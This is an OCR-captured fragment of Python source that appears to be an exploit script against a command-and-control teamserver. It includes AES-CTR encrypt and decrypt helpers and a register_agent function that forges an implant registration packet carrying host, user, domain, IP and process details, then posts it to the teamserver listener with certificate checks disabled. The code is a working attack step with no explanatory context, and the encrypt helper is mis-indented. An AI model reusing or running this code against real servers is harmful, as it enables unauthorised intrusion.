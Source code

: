 urllib3.disable_warnings()

key_bytes = 32

def decrypt(key, iv, ciphertext):
    if len(key) <= key_bytes:
        for _ in range(len(key), key_bytes):
            key += b"0"

    assert len(key) == key_bytes

    iv_int = int(binascii.hexlify(iv), 16)
    ctr = Counter.new(AES.block_size * 8, initial_value=iv_int)
    aes = AES.new(key, AES.MODE_CTR, counter=ctr)

    plaintext = aes.decrypt(ciphertext)
    return plaintext


def int_to_bytes(value, length=4, byteorder="big"):
    return value.to_bytes(length, byteorder)


def encrypt(key, iv, plaintext):
    if len(key) <= key_bytes:
        for x in range(len(key), key_bytes):
            key = key + b"0"

        assert len(key) == key_bytes

        iv_int = int(binascii.hexlify(iv), 16)
        ctr = Counter.new(AES.block_size * 8, initial_value=iv_int)
        aes = AES.new(key, AES.MODE_CTR, counter=ctr)

        ciphertext = aes.encrypt(plaintext)
        return ciphertext

def register_agent(hostname, username, domain_name, internal_ip, process_name, process_id):
    command = b"\x00\x00\x00\x63"
    request_id = b"\x00\x00\x00\x01"
    demon_id = agent_id

    hostname_length = int_to_bytes(len(hostname))
    username_length = int_to_bytes(len(username))
    domain_name_length = int_to_bytes(len(domain_name))
    internal_ip_length = int_to_bytes(len(internal_ip))
    process_name_length = int_to_bytes(len(process_name) - 6)

    data = b"\xab" * 100

    header_data = command + request_id + AES_Key + AES_IV + demon_id + hostname_length + hostname + username_length + username + domain_name_length + domain_name + internal_ip_length + internal_ip + process_name_length + process_name + process_id + data

    size = 12 + len(header_data)
    size_bytes = size.to_bytes(4, 'big')
    agent_header = size_bytes + magic + agent_id
    print(agent_header + header_data)
    print("[***] Trying to register agent...")
    r = requests.post(teamserver_listener_url, data=agent_header + header_data, headers=headers, verify=False)
    if r.status_code == 200:
        print("[***] Success!")
    else:
        print(f"[!!!] Failed to register agent - {r.status_code} {r.text}")
